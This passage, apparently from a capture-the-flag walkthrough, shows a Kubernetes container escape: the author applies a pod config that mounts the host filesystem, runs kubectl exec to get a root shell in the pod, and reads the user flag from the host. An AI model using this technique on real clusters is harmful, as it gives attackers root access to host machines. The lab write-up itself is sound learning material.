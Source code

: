 The config file mounts the host machine image on `/host` directory in the pod.

Save the configs in a file with `.yaml` extention and transfer the file to the target the same way we did with kubectl. I named mine `pwn.yaml`.

Now let's apply our new config file by running the following command:

~~~
(remote) root@php-deploy-6d998f68b9-wlslz:/tmp# ./kubectl apply -f pwn.yaml 
pod/pwned created
~~~

Great! Let's make sure the pod is created and it's running:

~~~
(remote) root@php-deploy-6d998f68b9-wlslz:/tmp# ./kubectl get pods
NAME                          READY   STATUS    RESTARTS       AGE
php-deploy-6d998f68b9-wlslz   1/1     Running   3 (125m ago)   82d
pwned                         1/1     Running   0              31s
~~~

Nice! Let's execute `sh` on our newly created pod and get a shell on it:

~~~
(remote) root@php-deploy-6d998f68b9-wlslz:/tmp# ./kubectl exec -it pwned -- /bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
~~~

We have a shell on our pod. Let's head to `/host` where we mounted the host machine image on, and make sure that our plan worked:

~~~
# cd /host
# ls
bin   dev  home  lib32	libx32	    media  opt	 root  sbin  srv  tmp  var
boot  etc  lib	 lib64	lost+found  mnt    proc  run   snap  sys  usr
~~~

After looking through some files in `/host` we can confirm that we have the host machine files mounted on this directory.

## User Flag

Now that we have root access to host machine files, we can go ahead and read the flags. The user flag can be found in `/host/home/herby`:

~~~
# pwd
/host/home/herby
# ls  
app  deploy.yaml  php-deploy.yaml  snap  user.txt
# cat user.txt
THM{REDACTED}
~~~

## Root Flag

